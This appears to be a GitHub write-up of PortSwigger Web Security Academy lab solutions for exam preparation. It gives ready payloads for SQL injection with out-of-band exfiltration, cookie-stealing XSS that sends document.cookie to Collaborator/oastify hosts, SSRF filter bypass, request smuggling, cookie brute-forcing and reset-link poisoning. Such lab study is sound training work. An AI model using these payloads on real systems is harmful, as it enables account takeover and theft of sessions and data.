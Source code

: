 "These labs have been selected because they reinforce core web security testing skills - such as understanding encodings and using them to evade defences, and proficiency in exploiting cross-user attacks. These specific labs support your exam preparation in terms of skill development, but they are in no way a list of the components you'll be expected to solve to complete the exam."

# [0x1] Lab: SQL injection with filter bypass via XML encoding
You will need [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) Burp Suite Extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
      <productId>
        2
      </productId>
    <storeId>
      <@hex_entities>
        1 union select password from users where username='administrator' 
      <@/hex_entities>
    </storeId>
  </stockCheck>
```

# [0x2] Lab: Blind SQL injection with out-of-band data exfiltration
### Identify vulnerability:
```sql
aaxaxa'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
```
Control + U for URL Encoding and SEND

### Data exfiltration
```sql
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```
Control + U for URL Encoding and SEND

# [0x3] Lab: Exploiting cross-site scripting to steal cookies 
A simulated victim user views all comments after they are posted.<br>
Write this payload into comment section:
```js
<script> document.location = "http://<BURP-COLLABORATOR>/?" + document.cookie </script>
```

# [0x4] Lab: SSRF with blacklist-based input filter
```
http://127.1/%2561dmin/delete?username=carlos
```

# [0x5] Lab: Exploiting HTTP request smuggling to capture other users' requests

Send this request to repeater and with HTTP Request Smuggler extension CL.TE send the requests a lot of times till the victim user visit our post requests
```
POST / HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Connection: close
Transfer-Encoding: chunked
Content-Length: 382

0

POST /post/comment HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 910
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c

csrf=OFh9DBRBkec4d8Xmh2rzVGNUZuDZlbH0&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=aa
```

# [0x6] Lab: Brute-forcing a stay-logged-in cookie
Login in our account `wiener:peter` and enable the option button `Stay logged in`. When successflly login intercept a GET request at `my-account` and a `stay-logged-in` cookie will appear.

Overtake carlos account steps:
- Send request to Intruder
- Menu bar => Payloads => Payload Processing
  - Add Hash:MD5
  - Add prefix:`carlos:`
  - Add Encode:Base64-encode
- Add $$ after = in `stay-logged-in` cookie e.g. `stay-logged-in=$$`
The last step is bruteforce passwords with these [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords). DONT FORGET TO LOGOUT FROM WIENER ACCOUNT
![image](https://user-images.githubusercontent.com/45040001/193135064-b1b6ab39-ce48-4a14-af92-92a3ed7ba26e.png)

# [0x7] Email Reset User Takeover
Go to 'Forgot you password?' functionality, if you can put a name instead of email put 'carlos' username and intercept the post request.
For the next step we have to open the exploit server and copy the exploit server host, insert 'X-Forwarded-Host' header with exploit server host for value and forward the request.
Our last step is to open the http logs from exploit server and take the reset link with new password functionality

# [0x8] onpopstate XSS cookie retrieve 
You have to encode the payload with hackvertor extension
```
<@burp_urlencode>

<iframe onload="if(!window.flag){this.contentWindow.location='https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>#';flag=1}" src="https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>"></iframe>

<@/burp_urlencode>
```
